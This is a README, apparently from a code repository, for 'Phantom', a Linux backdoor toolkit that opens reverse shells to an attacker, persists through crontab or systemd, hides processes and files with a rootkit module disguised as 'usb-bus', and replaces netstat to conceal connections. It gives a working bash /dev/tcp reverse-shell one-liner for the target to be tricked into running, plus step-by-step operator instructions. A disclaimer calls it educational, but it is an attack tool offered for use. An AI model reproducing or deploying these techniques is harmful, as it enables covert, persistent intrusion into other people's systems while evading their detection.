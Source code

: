 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one. So, essentially
you need to specify two ports. The reason for this is that this way you have more control of what to do with the backdoor shell,
otherwise the same payload gets executed each time the target connects to your machine.

## Usage

*Syntax*:	phantom-init	ip 1st-port 2nd-port
*	ip: the attacker's ip
*	1st-port: the port that listens for connections to deliver the payload
*	2nd-port: the port that listens for the backdoor shells after delivering the payload

## Files

*	phantom-init: Opens an ncat listening process to a predefined ip and port and redirects input to the payload file.

*	payload: This is the file that gets executed when the target connects to the listening ncat 1st-port. It does the following:
	* If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
	backdoor shell to the 2nd-port.
	* If the user connecting is root it creates a systemd service which executes a script, continuously trying to
	create a backdoor bash shell to your machine (2nd-port). It also creates a systemd service which executes a script,
	hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
	creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
	and the systemd services themselves. It is also persistent through reboots because the second systemd service
	(the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote
	connections to the specified ip and 2nd-port.

*	phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system.
It can also undo changes made to the nft ruleset by using the argument -r | -R .

You have to somehow make the target execute this code, so that he connects to the 1st-port:
bash -c 'bash &>/dev/tcp/ip/1st-port 0>&1 &'
ip and 1st-port are the ones specified above.

## Order of execution

* Before delivering the payload:
	1. Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
	1. Execute phantom-firewall as root, so it can modify the firewall rules.
	2. Create an ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

## Order of closing

1.	Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2. 	Close the ncat listening process so all the connections get closed with it.
3. 	Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
		This is needed if you want to open ncat again and for the target to be able to connect to you again, otherwise a nftables rule is gonna
		block him.

### Contact Information

Konstantinos Sarantopoulos
konsaranto@gmail.com
